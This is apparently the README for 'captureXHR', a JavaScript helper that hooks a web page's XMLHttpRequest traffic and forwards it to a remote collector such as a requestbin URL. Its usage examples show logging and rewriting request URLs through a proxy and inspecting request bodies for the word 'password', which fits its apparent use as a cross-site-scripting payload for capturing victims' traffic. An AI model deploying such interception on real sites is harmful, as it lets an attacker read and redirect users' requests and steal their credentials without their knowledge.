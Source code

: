 # captureXHR
## Usage
```
captureXHR('https://requestbin.herokuapp.com/oa2lf9oa');
```
result: http://requestb.in/oa2lf9oa?inspect
### Interceptor
#### onopen
```
captureXHR('https://pkav.net',{onopen:(method,url)=>console.log(url)})
```
```
captureXHR('https://pkav.net',{onopen:(method,url)=>{
  //Change argument
  url = `http://proxy/?${url}`;
  return {method,url};
}})
```
#### onsend
```
captureXHR('https://pkav.net',{onsend:(data)=>console.log(data)})
```
```
captureXHR('https://pkav.net',{onsend:(data)=>{
  if(data.indexOf('password')!==-1){
    data = 'xsser';
  }
  return data;
}})
```
